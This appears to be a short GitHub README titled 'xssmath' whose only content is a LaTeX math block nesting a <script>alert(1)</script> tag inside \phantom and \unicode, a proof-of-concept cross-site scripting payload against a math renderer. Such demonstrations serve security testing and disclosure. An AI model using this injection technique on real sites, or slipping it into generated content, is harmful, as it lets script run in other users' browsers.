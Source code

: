 # xssmath
```math
\phantom{
    \unicode{
        <script>
            alert(1);
        </script>
    }
}
